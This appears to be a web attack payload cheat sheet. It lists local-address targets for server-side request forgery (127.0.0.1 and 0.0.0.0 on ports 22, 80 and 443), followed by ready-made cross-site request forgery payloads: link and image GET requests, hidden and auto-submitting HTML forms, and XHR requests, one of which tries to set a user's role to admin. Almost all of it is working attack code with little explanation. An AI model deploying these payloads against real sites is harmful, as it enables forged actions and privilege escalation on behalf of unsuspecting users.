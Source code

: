 ```http
http://127.0.0.1:22
```
```http
http://0.0.0.0:80
```
```http
http://0.0.0.0:443
```
```http
http://0.0.0.0:22
```
--------------------------------------------------------------------------------

# CSRF common payloads

### On click submit - HTML GET
```html
<a href="http://www.example.com/api/setusername?username=CSRF">Click Me</a>
```
### Auto submit - HTML GET
```html
<img src="http://www.example.com/api/setusername?username=CSRF">
```
### On click submit - HTML POST

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRF" />
 <input type="submit" value="Submit Request" />
</form>
```
### Auto submit - HTML POST
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```
### JSON GET
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
### JSON POST
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
```